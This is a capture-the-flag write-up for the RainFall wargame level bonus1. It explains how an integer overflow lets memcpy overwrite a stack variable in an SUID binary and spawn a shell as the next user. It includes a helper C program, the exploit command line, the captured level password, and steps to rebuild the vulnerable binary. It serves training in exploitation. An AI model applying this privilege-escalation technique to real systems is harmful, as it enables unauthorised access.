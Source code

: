 # Level bonus 1

## Vulnerability

memcpy() buffer overflow

## Context

We find a binary with owner ```bonus2``` and SUID.
```
bonus1@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```
When run with no arguments it segfaults. with any number of random arguments it does nothing.
```
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 hi
bonus1@RainFall:~$
```

## Solution

Investigating with gdb we find only ```main()```, no other functions. ```main()``` calls ```memcpy()``` which is vulnerable to buffer overflow.

First ```main()``` reads the first argument ```n = atoi(argv[1])```, and exits the program if ```n``` not less than 10. So any number less than 10, easy!

Next ```memcpy()``` copies ```n``` * 4 bytes from ```argv[2]``` to a buffer on the stack with the potential to overflow ```n```.

Finally, if now ```n``` == 0x574f4c46 ("FLOW" in ascii) a shell is opened.

So we want to use ```memcpy()``` to overflow ```n``` with 0x574f4c46. The problem is ```n``` <= 9, ```memcpy()``` copies ```n``` * 4 bytes, 9 * 4 = 36. Not long enough to reach and overwrite ```n```, 44 bytes minimum. The solution is to use a negative number which when multiplied by 4 is at least 44 (n * 4 => 44).

### Find n (first argument)

We can write a simple c program ```find_n.c``` to find an ```n``` which works for us.
```
/*
	find_n.c
*/
#include <stdio.h>
#include <limits.h>

int	main(void)
{
	int	n;

	n = INT_MIN;
	while (n < 0)
	{
		if (n * 4 >= 44)
		{
			printf("n = %d, n * 4 = %d\n", n, n * 4);
			break ;
		}
		n++;
	}
	return (0);
}
```
Compiled and run with ```gcc find_n.c -o find_n; ./find_n``` it outputs:
```
n = -2147483637, n * 4 = 44
```

### Build overflow string

So our first argument ```n``` is ```-2147483637```

And our second argument:
1. 40 bytes padding to reach the address of ```n``` - ```$(python -c 'print "A" * 40'```
2. target value ```n``` to open shell, 0x574f4c46 = "FLOW" in ascii - ```"FLOW"```
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Recreate Exploited Binary

As user ```bonus2```, in ```/tmp```, create and compile ```bonus1_source.c```
```
bonus2@RainFall:/tmp$ gcc bonus1_source.c -fno-stack-protector -o bonus1_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus2@RainFall:/tmp$ chmod u+s bonus1_source; chmod +wx ~; mv bonus1_source ~
```

Exit back to user ```bonus1```, then provide our exploit arguments to the source.
```
bonus2@RainFall:/tmp$ exit
exit
bonus1@RainFall:~$ /home/user/bonus2/bonus1_source -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
```
